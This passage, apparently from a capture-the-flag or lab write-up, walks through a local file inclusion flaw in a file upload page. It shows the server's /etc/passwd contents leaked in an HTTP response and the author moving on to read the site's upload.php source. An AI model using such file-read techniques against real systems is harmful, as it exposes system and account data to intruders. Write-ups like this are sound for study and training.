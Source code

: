 ```req

------WebKitFormBoundary4fdnIVaZFVYSWqpB--

```

## LFI

Alright now we got a lfi. lets try to read the `/etc/passwd` file.

```
HTTP/1.1 200 OK
Date: Wed, 20 Sep 2023 10:36:35 GMT
Server: Apache/2.4.54 (Ubuntu)
Last-Modified: Wed, 20 Sep 2023 10:36:16 GMT
ETag: "56d-605c7f1f8dabe"
Accept-Ranges: bytes
Content-Length: 1389
Connection: close
Content-Type: application/pdf

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false

```

what todo next is prolly try to read the source code of the website. so i tried
to read the `/var/www/html/upload.php` file. and it worked.
